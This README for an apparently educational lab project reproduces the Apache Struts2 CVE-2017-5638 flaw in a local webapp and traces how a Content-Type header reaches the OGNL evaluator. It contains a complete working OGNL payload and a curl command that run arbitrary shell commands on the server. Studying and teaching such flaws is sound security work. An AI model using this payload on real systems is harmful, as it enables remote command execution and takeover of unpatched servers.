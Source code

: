 # Apache Struts2 Vulnerability | CVE-2017-5638 | Version 2.5

## Disclaimer

*This is meant for educational, and research purposes only. I do not authorize or endorse any illegal or unethical use of this projects contents or information*

## Instructions

To run the webapp:
* java -jar ms-cybersecurity-1.jar (uses embedded Tomcat)
* Java 1.8
* the webapp boots on port 8080 by default (http://localhost:8080/MSCybersecurity)

To Send commands use command line emulator (Send.jar) [project](https://github.com/grant100/cybersecurity-struts2-send):

*blank url defaults to http://localhost:8080/MSCybersecurity/exploit, you must be on /exploit endpoint*

![send](src/main/resources/META-INF/resources/images/send.png)

* java -jar Send.jar

If you want to modify this source, the project uses the Maven build system:
* When modifying source: mvn package (create .jar)

NVD [CVE-2017-5638](https://nvd.nist.gov/vuln/detail/CVE-2017-5638)

## The Payload

The clever aspect of this vulernability is the exploitation of OGNL (Object Graph Navigation Library).

OGNL uses expressions to perform tasks, and two of the expressions that are allowed is the ability to invoke arbitrary classes in the framework, and chain events. Reference guide [OGNL Language Guide](https://commons.apache.org/proper/commons-ognl/language-guide.html).

So for example, it is possible then to instantiate edu.uvu.ms.cybersecurity.Command object with OGNL 
 
    //  OGNL expression to instantiate Command obj
    (#cmd='whoami').(#p=new edu.uvu.ms.cybersecurity.Command(#cmd)).(#p.print('hello from MSCybersecurity'))
  
The edu.uvu.ms.cybersecurity.Command class

    // Command simply prints the cmd argument passed from the OGNL expression
    public class Command {
      private Object cmd;
      
      public Command(Object cmd){
        this.cmd = cmd;
      }

      private void print(){
          System.out.println("OGNL recieved cmd: "+this.cmd);
      }
      
      public void print(String loc){
          System.out.println("OGNL recieved cmd: "+this.cmd+" from "+loc);
      }
    }
     
 Or, in a more practical sense, one can invoke the java.lang.ProcessBuilder class to run system level commands 
  
    (#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start())

The following payload contains a command to invoke edu.uvu.ms.cybersecurity.Command and print the command issued to the server into the console, and then proceed to execute the command. (to illustrate chaining of events, and invoking classes)


    Content-Type:  %{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='whoami').(#p=new edu.uvu.ms.cybersecurity.Command(#cmd)).(#p.print('hello from MSCybersecurity')).(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}


Deliver the payload with CURL

    curl -H "Content-Type:  %{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='whoami').(#p=new edu.uvu.ms.cybersecurity.Command(#cmd)).(#p.print('hello from MSCybersecurity')).(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}" -X POST http://localhost:8080/MSCybersecurity/exploit

A portion of this payload was pulled from [Rapid7 GitHub](https://github.com/rapid7/metasploit-framework/issues/8064)

## The Breakdown (as viewed from my IDE)

The Jakarta MultiPart Parser:
   
The issue is how the Parser doesn't escape incoming values in the Content-Type header. What this means is that an OGNL expression can be packaged into the Content-Header. When the header is determined that it is MultiPart it sends it off to the OgnlTextParser.class, which simply interprets the OGNL expression and subsequently ends up executing arbitrary commands.

The following is a step-by-step look at how this vulnerability is exploited.

The Struts2 Dispatcher: org.apache.struts2.dispatcher.Dispatcher

The Struts Dispatcher.class receives the request, and determines that it should be handled by the JakartaMultiPart library and invokes the *MultiPartRequestWrapper()* constructor
![Dispatcher](src/main/resources/META-INF/resources/images/Dispatcher-wrapRequest.png)

he OGNL expression from the Content-Type header is then passed into the *parse()* method. Because the header information is bad, the parser will raise an exception and call the *buildErrorMessage()* method 

![Dispatcher](src/main/resources/META-INF/resources/images/JakartaMultiPartRequest-parse.png)

The *buildErrorMessage()* method attempts to find an appropriate error message to return to the user, however, in order to do this, it has to uses the LocalizedTextUtil.class *findText()* method

![Dispatcher](src/main/resources/META-INF/resources/images/JakartaMultiPartRequest-buildError.png)

The LocalizedTextUtil.class findText method will in turn call *getDefaultMessage()* and pass in the Content-Type information 

![Dispatcher](src/main/resources/META-INF/resources/images/LocalizedTextUtil-findText.png)

The *getDefaultMessage()* message will then delegate to TextParseUtil.class *translateVariables()* method

![Dispatcher](src/main/resources/META-INF/resources/images/LocalizedTextUtil-getDefaultMessage.png)

The TextParseUtil.class *translateVariables()* method delegates to the OgnlTextParser.class evaluate method

![Dispatcher](src/main/resources/META-INF/resources/images/TextParseUtil-translateVariables.png)

The result being that any OGNL expressions are now executed

![Dispatcher](src/main/resources/META-INF/resources/images/OglnTextParser-evaluate.png)

                      
